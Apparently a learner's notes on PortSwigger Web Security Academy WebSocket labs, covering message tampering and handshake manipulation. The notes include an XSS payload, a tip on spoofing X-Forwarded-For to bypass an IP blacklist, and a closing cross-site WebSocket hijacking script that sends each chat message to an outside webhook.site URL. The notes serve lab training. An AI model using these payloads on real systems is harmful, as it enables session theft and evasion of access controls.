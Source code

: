 
---
# Securing a WebSocket connection 

---
# _Labs solving 

### Manipulating WebSocket messages to exploit vulnerabilities

The majority of input-based vulnerabilities affecting WebSockets can be found and exploited by [tampering with the contents of WebSocket messages](https://portswigger.net/web-security/websockets#intercepting-and-modifying-websocket-messages).

For example, suppose a chat application uses WebSockets to send chat messages between the browser and the server. When a user types a chat message, a WebSocket message like the following is sent to the server:

`{"message":"Hello Carlos"}`

The contents of the message are transmitted (again via WebSockets) to another chat user, and rendered in the user's browser as follows:

`<td>Hello Carlos</td>`

In this situation, provided no other input processing or defenses are in play, an attacker can perform a proof-of-concept XSS attack by submitting the following WebSocket message:

`{"message":"<img src=1 onerror='alert(1)'>"}`

---
### Manipulating the WebSocket handshake to exploit vulnerabilities

Some WebSockets vulnerabilities can only be found and exploited by [manipulating the WebSocket handshake](https://portswigger.net/web-security/websockets#manipulating-websocket-connections). These vulnerabilities tend to involve design flaws, such as:

- Misplaced trust in HTTP headers to perform security decisions, such as the `X-Forwarded-For` header.
- Flaws in session handling mechanisms, since the session context in which WebSocket messages are processed is generally determined by the session context of the handshake message.
- Attack surface introduced by custom HTTP headers used by the application.
- we used the x-forwarded-for: 1.1.1.1   -> this will lead  for us to be able to  bypass the blacklist IP restriction.

`<script> var ws = new WebSocket('wss://0a1000bf0464443a80c40d8a00e40072.web-security-academy.net/chat'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://webhook.site/4582921f-f016-4a02-a577-4b0a95f3ae26', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>`